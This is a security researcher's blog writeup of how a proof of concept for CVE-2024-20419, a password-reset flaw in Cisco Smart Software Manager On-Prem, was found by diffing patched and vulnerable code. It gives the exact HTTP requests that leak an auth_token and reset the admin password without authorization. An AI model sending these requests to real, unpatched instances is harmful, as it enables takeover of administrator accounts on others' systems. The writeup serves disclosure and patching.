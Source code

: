 +++
title = 'CVE-2024-20419 POC'
description = "The writeup for finding a POC for CVE-2024-20419, a CVSSv3 10.0 vulnerability in Cisco Smart Software Manager On-Prem."
tldr = "The password reset workflow has the following steps: the user requests to change their password, an OTP code is generated and sent to their email address. If they validate their code, they will receive an `auth_token` which can be used to reset the password. However, in versions before 8-202212 the `auth_token` gets leaked when generating the OTP code."
date = 2024-07-23
draft = false 
+++

## Finding about the CVE and starting to `binwalk`

I found about this CVE on 23 July, while scrolling on my phone.
[DNSC](https://dnsc.ro/citeste/alerta-vulnerabilitati-critice-de-securitate-cibernetic-identificate-la-nivelul-unor-produse-cisco) published an aricle about two critical vulnerabilities in CISCO.
CVE-2024-20419 stood out to me as it had a 10.0 CVSS score, and yet I found out about it almost a week after it was published.
Also, at a quick search I couldn't find any public POC for it.

Judging by the fact that it was marked as easy to exploit, I thought maybe I give it a try to find a POC myself. How hard could it be, right?

I went to the vendors official page to download the first fixed version (8-202212) and the last vulnerable one (8-202206).
The vendor provides an `iso` and the steps to deploy it, however, running two virtual machines in parallel with my aready running Kali machine might have been too much for my laptop.
That's why I decided for beginning to perform some static analysis.

Now, it was time for some `binwalk`ing to find any source code/binaries in the provided `iso`.

Looking through the files extracted, I found a `squashfs` file system.
Right away mounted it, but to my surprise it was just a standard CENTOS file system.

The last directory I looked into was `iso-root/hardening/` as the `hardening` name didn't suggest to me the possiblity of having any files of interest for my goal.

First, let me share a quick fact about Smart Software Manager On-Prem, it used to be called Smart Software Manager Satellite.

In the `hardening` directory I found the following interesting archive: `satellite-install.tgz` (now, you can guess why this archive seemed interesting).
After extracting its contents I had the following files:

```console
❯ ls
ares                                        db                                          ipv6nat                                     satellite-install.sh                        typhaon
backend                                     docker-compose.yml                          onprem-console                              services.img
build.txt                                   fluentd                                     pw.env                                      ssl
cerberus-8_202112-20220720212433.x86_64.rpm frontend                                    redis                                       tacacs-client
```

The contents of `satellite-install.sh` are:

```bash
#!/bin/bash

# Generate password env file
cat << EOP > /home/deployer/atlantis/pw.env
SECRET_KEY_BASE=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 128)
POSTGRES_PASSWORD=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 16)
ATLANTIS_DATABASE_PASSWORD=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 16)
PDB_PASSWORD=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 16)
EOP
chmod 400 /home/deployer/atlantis/pw.env

# Install Cerberus
rpm -Uvh ./cerberus-*.rpm

# Install OnPrem Console
cp -a ./onprem-console /opt
chown root:root -R /opt/onprem-console
restorecon -R /opt/onprem-console
ln -nsf /opt/onprem-console/bin/onprem-console /usr/local/bin/onprem-console

#SAV-10749 support database backup for nonsudousers
echo "%onprem         ALL = NOPASSWD: /opt/onprem-console/scripts/backup_database.sh"> /etc/sudoers.d/onprem

# Make runtime environment aware of build target environment
echo "TARGET_ENV=prod" >> /etc/environment

# Placeholder docker context directory to satisfy docker-compose up
mkdir /home/deployer/atlantis/{db,backend,frontend,ipv6nat,redis,typhaon,ares,fluentd,tacacs-client}

# Load docker images
docker load --input ./services.img
```

I generated the `pw.env` file, loaded the docker images from `services.img` and with some tweaks to the `docker-compose` file, I could actually deploy the images on my macintosh machine.

First, I interacted with the login page to see its flow.
I couldn't reset the password of the `admin` user as it didn't have no email associated with it, yet I still learned something out of this: some of the paths involved in the reset password mechanism.

Out of all the containers running after deploying `backend` and `gobackend` seemed that they could store the source code/binaries behind this.
Some `grep`s later, I found that the source code for the app lives in the `backend` docker image and its written in Ruby.

I extracted the code to my local machine and then repeated the process for the patched version.

## Diffing the code

I quickly diffed the two versions of the code to find any interesting differences.

The first relevant difference I found was in the User model class.
Here, a new function was defined, that decided if a user can actually reset their password or not.

![can reset function](/posts/imgs/can_reset.png)

The second difference, was in the `reset_password_service.rb`.

![reset service](/posts/imgs/reset1.png)
![reset service](/posts/imgs/reset2.png)

The changes from the reset password service were quite subtle, and I still couldn't put the finger on what was the change that fixed this vulnerability.

## The answer was right in front of our face

I decided to interact a little with the two instances.
After going through the password reset flow from the beginning to the end, the changes was clear, and I realised that it was right in front of my face.

The `auth_token` is all that is needed to succesfully reset the password of a user.
This token gets leaked when we generate a OTP code via the `get_authtoken` function.

Also, because the lack of a check wether a user can or can't reset its password in the user model, we can bypass the error message I encountered earlier by simply making the `/backend` requests.
We know that all instances of CISCO SSM should have an `admin` user, which makes this even more dangerous and easier to exploit.

Putting these things together, we can generate a probable POC to exploit this vulnerability.

## Validating the POC

First, we have to get the `XSRF-TOKEN` and `lic_engine_session` cookie.
At first, I tried the POC without these and I got hit by an error.
However, looking through the Burp Proxy HTTP History I saw that before making the request to generate an OTP code, a request to `/backend/settings/oauth_adfs?hostname=localhost` is made.

```text
GET /backend/settings/oauth_adfs?hostname=localhost HTTP/1.1
Host: localhost:8443
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Accept: application/json
Content-Type: application/json
Accept-Language: en-GB
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive
```

The response should contain the following headers:

```text
Set-Cookie: XSRF-TOKEN=Yr6InPJwESPfYoR52a%2Bxk4ysZOywkHzW8YlhBtSACD9HnhZ4atrqFMrjsROMbtUKpwLPKmqokmVrWiQlMOCX%2FQ%3D%3D; path=/
Set-Cookie: _lic_engine_session=48787c9a7e0f5685e77f3203c208b777; path=/; HttpOnly
```

Then, we make a request using the `XSRF-TOKEN` and `lic_engine_session` that we extracted earlier to the `/backend/reset_password/generate_code` endpoint, to get the `auth_token`.

```text
POST /backend/reset_password/generate_code HTTP/1.1
Host: localhost:8443
Cookie: XSRF-TOKEN=<XSRF_TOKEN>; _lic_engine_session=<LIC_TOKEN>
Content-Length: 15
X-Xsrf-Token: <XSRF_TOKEN>;
Sec-Ch-Ua-Mobile: ?0
Content-Type: application/json
Accept: application/json
Connection: keep-alive

{"uid":"admin"}
```

```text
HTTP/1.1 200 OK

...

{"uid":"admin","auth_token":"<AUTH_TOKEN>"}
```

Now, with the `auth_token` we got we can make the reset password request:

```text
POST /backend/reset_password HTTP/1.1
Host: localhost:8443
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: application/json
Connection: keep-alive
Content-Type: application/json
X-Xsrf-Token: <XSRF_TOKEN>
Cookie: _lic_engine_session=<LIC_TOKEN>; XSRF-TOKEN=<XSRF_TOKEN>
Content-Length: 192

{"uid": "admin", "auth_token": "AUTH_TOKEN", "password": "Test1234567890!", "password_confirmation": "Test1234567890!", "common_name": ""}
```

If everything is alright we should get the following response:

```text
HTTP/1.1 200 OK
...
{"status":"OK"}
```

Make sure to patch your instances if you have any, as this is a trivial exploit with tremendous consequences.